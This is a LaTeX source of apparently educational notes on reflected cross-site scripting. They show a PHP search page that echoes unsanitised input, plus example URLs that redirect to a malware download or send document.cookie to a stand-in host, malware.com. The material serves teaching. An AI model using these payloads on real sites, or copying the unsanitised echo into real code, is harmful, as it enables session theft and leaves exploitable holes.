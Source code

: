\documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
\subsection{Cross Site Scripting (XSS)}
It is a vulnerability that enables to insert or execute in a form input (client side) an attack: execute malware, steal data or cookies. The problem is caused by the direct displaying in an output web page, without any sanitization.
\begin{lstlisting}
	<?php
		$query = $_GET["query"];
		if (isset($query)) {
			echo "Search results for: " . $query;
			// perform query and echo query results
		}
	?>
\end{lstlisting}
For example, a search of "Q-bits" in an input form returns the HTML page:
\begin{lstlisting}
	<html>
		Search results for: Q-bits
		<ol>
			<li> http://qbits.com/ </li>
			<li> http://qbits.edu/ </li>
			<li> http://q.bits.it/ </li>
		...
\end{lstlisting}
It is then possible to send the link hiding the full URL with a mail:
\begin{center}
\texttt{[image: img/st1.png]}
\end{center}
It is however also possible to alter the content of the URL like:
\begin{lstlisting}
http://search.com/?query=<a href="http://malware.com/virus.exe">
		Q-bits</a>
\end{lstlisting}
So that, when the link is pressed, the actual page to whom the user is redirected is the malicious site set by the attacker. Same thing can be made to steal cookies or to execute a script:
\begin{lstlisting}
http://search.com/?query=<a href="#" onclick="document.location=
	'http://malware.com/stealcookie.php?cookie='
		+escape(document.cookie);" >Q-bits</a>
\end{lstlisting}
\begin{lstlisting}
http://search.com/?query=<script>document.write(
	'<img src="https://malware.com/steal-cookie.gif?cookie='
		+escape(document.cookie)+'">');</script>Q-bits
\end{lstlisting}
Typical attack:
\begin{enumerate}
\item The attacker identifies a web site with XSS vulnerabilities;
\item The attacker creates a URL that submits malicious input (e.g.,
including malicious links or JS code) to the attacked web site;
\item The attacker tries to induce the victim to click on the URL (e.g., including link in an email);
\item The victim clicks the URL, hence submitting malicious input to
the attacked web site;
\item The web site response page includes malicious links or
malicious JS code (executed on the victim’s browser).
\end{enumerate}
\end{document}
